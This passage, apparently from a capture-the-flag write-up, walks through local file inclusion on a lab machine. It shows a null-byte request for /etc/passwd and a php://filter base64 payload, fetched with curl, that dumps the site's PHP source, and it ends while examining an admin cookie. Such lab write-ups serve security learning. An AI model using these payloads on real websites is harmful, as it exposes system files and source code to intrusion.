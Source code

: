 
### LFI

The format of the url for the uploads page indicates the site is likely doing
something like having a main page, and that page calls `include $_GET['op'] .
'.php'` to bring in the other panes. That’s obviously a good place to look for
LFI.

#### null terminator (fail)

If the theory above is correct, the site will append `.php` to whatever input
is given. First, we can try the %00 trick:
`http://10.10.10.80/index.php?op=/etc/passwd%00`

    
    
    Are you really trying /etc/passwd!? Did we Time Travel? This isn't the 90's
    

#### get php source

    
    
    root@kali# curl -sD - 10.10.10.80/?op=php://filter/convert.base64-encode/resource=home | head -44 | tail -1 | cut -d' ' -f1 | base64 -d > home.php
    root@kali# cat home.php
    <?php
    include 'common.php';
    ?>
    
        <!-- Page Content -->
        <div class="container">
    
            <!-- Portfolio Item Heading -->
            <div class="row">
                <div class="col-lg-12">
                    <h1 class="page-header">FBI Most Wanted: #fsociety
                        <small></small>
                    </h1>
                </div>
            </div>
            <!-- /.row -->
    
            <!-- Portfolio Item Row -->
            <div class="row">
    ...
    

#### Find Note From Whiterose

There’s an interesting bit in `index.php`:

    
    
    //Cookie
    if(!isset($_COOKIE['admin'])) {
      setcookie('admin', '0');
      $_COOKIE['admin'] = '0';
    }
    